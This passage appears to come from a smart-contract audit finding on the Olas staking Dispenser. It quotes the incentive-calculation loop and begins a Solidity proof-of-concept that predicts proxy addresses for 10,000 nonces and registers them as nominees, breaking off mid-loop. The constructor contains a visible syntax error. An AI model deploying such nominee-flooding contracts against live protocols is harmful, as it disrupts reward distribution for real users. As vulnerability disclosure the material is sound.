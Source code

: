 ```solidity
function calculateStakingIncentives(
    uint256 numClaimedEpochs,
    uint256 chainId,
    bytes32 stakingTarget,
    uint256 bridgingDecimals
) public returns (
    uint256 totalStakingIncentive,
    uint256 totalReturnAmount,
    uint256 lastClaimedEpoch,
    bytes32 nomineeHash
) {
    //.....
    for (uint256 j = firstClaimedEpoch; j < lastClaimedEpoch; ++j) {
        //....
    }
    //....
}
```

https://github.com/code-423n4/2024-05-olas/blob/main/tokenomics/contracts/Dispenser.sol#L881

The following code shows the code that the attacker use to executed the attack by calling the function `run`. It sets the nonce from 0 to 10000, and predict the address of instances if it is created with implementation of `StakingToken` or `StakingNativeToken`. Then the attacker adds these predicted addresses as nominee.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

interface IStakingFactory {
  function getProxyAddressWithNonce(
      address implementation,
      uint256 localNonce
  ) external view returns (address);
}

interface IVoteWeighting {
  function addNomineeEVM(address account, uint256 chainId) external;
}

contract OlasPoC {
  IStakingFactory iStakingFactory;
  IVoteWeighting iVoteWeighting;
  address public immutable StakingToken;
  address public immutable StakingNativeToken;

  constructor(
      address _stakingFactory,
      address _voteWeighting,
      address _stakingToken,
      address _stakingNativeToken;
  ) {
      iStakingFactory = IStakingFactory(_stakingFactory);
      iVoteWeighting = IVoteWeighting(_voteWeighting);
      StakingToken = _stakingToken;
      StakingNativeToken = _stakingNativeToken;
  }

  function run() public {
      address instance;
      for (uint256 i = 0; i < 10000; i++) {
          // predict the address of the instance with implementation address of **StakingToken** and nonce 0 to 10000
```